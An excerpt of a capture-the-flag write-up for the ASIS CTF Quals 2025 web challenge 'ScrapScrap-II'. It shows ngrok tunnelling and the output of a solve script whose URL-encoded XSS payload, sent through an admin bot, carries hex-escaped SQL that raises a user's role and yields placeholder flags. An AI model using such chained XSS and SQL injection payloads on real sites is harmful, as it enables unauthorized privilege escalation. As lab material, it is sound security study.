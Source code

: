 To automate the above steps, I've written the following Python solve script: (Including previous challenge steps)

<details><summary markdown="span"><strong>solve.py</strong></summary></details>

- Setup port forwarding via [ngrok](https://ngrok.com/)

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-II]-[2025/09/09|21:54:41(HKT)]
└> ngrok tcp 5000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:19141 -> localhost:5000                             
[...]
```
{% endraw %}

```shell
┌[siunam@~/ctf/ASIS-CTF-Quals-2025/Web/ScrapScrap-II]-[2025/09/09|21:54:45(HKT)]
└> python3 solve.py
[*] Registering new user RPnlKfanxh with password "RPnlKfanxh"...
[*] Logging in as user RPnlKfanxh...
[*] User ID: 2 | Role: demo
[*] Starting our web server...
[*] Visiting URL for bot: http://localhost:3000/checker?url=http://0.tcp.ap.ngrok.io:19141/sleep%3Fpayload%3D%3C%3Ci%3Eimg%20src%20onerror%3D%22eval%28fetch%28%27/debug/create_log%27%2C%20%7B%20method%3A%20%27POST%27%2C%20body%3A%20new%20URLSearchParams%28%7B%20%27log%27%3A%20%27%5Cx27%5Cx29%5Cx3b%5Cx55%5Cx50%5Cx44%5Cx41%5Cx54%5Cx45%5Cx20%5Cx75%5Cx73%5Cx65%5Cx72%5Cx73%5Cx20%5Cx53%5Cx45%5Cx54%5Cx20%5Cx72%5Cx6f%5Cx6c%5Cx65%5Cx3d%5Cx22%5Cx75%5Cx73%5Cx65%5Cx72%5Cx22%5Cx20%5Cx57%5Cx48%5Cx45%5Cx52%5Cx45%5Cx20%5Cx69%5Cx64%5Cx3d%5Cx32%5Cx3b%5Cx53%5Cx45%5Cx4c%5Cx45%5Cx43%5Cx54%27%20%7D%29%7D%29%29%22%3C/i%3E%3E
[...]
[*] Logging out as user RPnlKfanxh...
[*] Logging in as user RPnlKfanxh...
[*] User ID: 2 | Role: user
[+] Flag 1: ASIS{FAKE_FLAG1}
[*] Logging out as user RPnlKfanxh...
[*] Logging in as user RPnlKfanxh...
[+] Flag 2: ASIS{FAKE_FLAG2}
```